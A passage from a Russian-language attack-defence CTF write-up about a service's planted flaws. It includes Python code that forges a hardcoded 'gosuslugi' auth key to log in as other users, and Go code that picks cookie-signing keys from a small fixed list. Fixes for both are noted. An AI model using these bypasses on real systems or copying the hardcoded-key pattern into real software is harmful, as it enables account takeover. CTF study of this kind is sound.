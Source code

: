 Подготовим пейлоад:
```
	"NXvP000qw-123456#qwerty-KeKeKe-1234567890@012345678901234567890123456789#???" + md5_hash(username)
```
По аналогии с эксплуатацией через SQLi нужно распарсить имена пользователей, а затем просматривать флаги от их лица. Сам процесс авторизации при помощи уязвимой функции выглядит так:
```
	def create_md5(str):
		hash = hashlib.md5(str.encode('utf-8'))
		return hash.hexdigest()
	def create_data(username):
		data = {
		"username": username,
		"gosuslugi_auth_key": "NXvP000qw-123456#qwerty-KeKeKe-1234567890@012345678901234567890123456789#???" + create_md5(username)
		}
		return data
	headers = {
	    "Referer": "https://www.gosuslugi.ru/"
	}
	s = requests.Session()
	req = s.post(url+"/authorize_gosuslugi", headers=headers, data=create_data(username))
```
Для закрытия уязвимости вполне достаточно удалить данную "фичу", больше напоминающую бэкдор. Если чекер не скажет ничего против удаления (а он не скажет), то данное радикальное решение вполне оправдает себя.
# Weak cookie encryption
Файл app_logic/utils/cookies.go инициализирует "защищенное" хранилище cookie:
```
	var SC *securecookie.SecureCookie
	
	func init() {
		SC = securecookie.New([]byte(config.KeyDict[rand.Int()%len(config.KeyDict)]), []byte(config.KeyDict[rand.Int()%len(config.KeyDict)]))
	}
```
Посмотрим в описание функции securecookie.New:
```
	func securecookie.New(hashKey []byte, blockKey []byte) *securecookie.SecureCookie
	New returns a new SecureCookie.
	hashKey is required, used to authenticate values using HMAC. Create it using GenerateRandomKey(). It is recommended to use a key with 32 or 64 bytes.
	blockKey is optional, used to encrypt values.
```
Теперь ясно, что в качестве аргументов подаются ключи для шифрования. В нашем случае при генерации ключей происходит обращение к некоему config.KeyDict. Просмотрим config/config.go:
```
	var KeyDict [10]string
	func init() {
		// TODO: use random key generation
		KeyDict = [10]string{"nerisande", "neriael", "neriyuko", "nerielys", "nerysgosa", "nerieth", "neriett", "neridana", "neriss", "neri"}
		for i := range KeyDict {
			KeyDict[i] = padWithZeros(KeyDict[i], 32)
		}
	}
```
В коде даже есть намёк на то, что стоило бы использовать случайную генерацию ключей (это в общем-то и является закрытием уязвимости). Сами же ключи берутся случайно из весьма небольшого списка {"nerisande", "neriael", "neriyuko", "nerielys", "nerysgosa", "nerieth", "neriett", "neridana", "neriss", "neri"}.
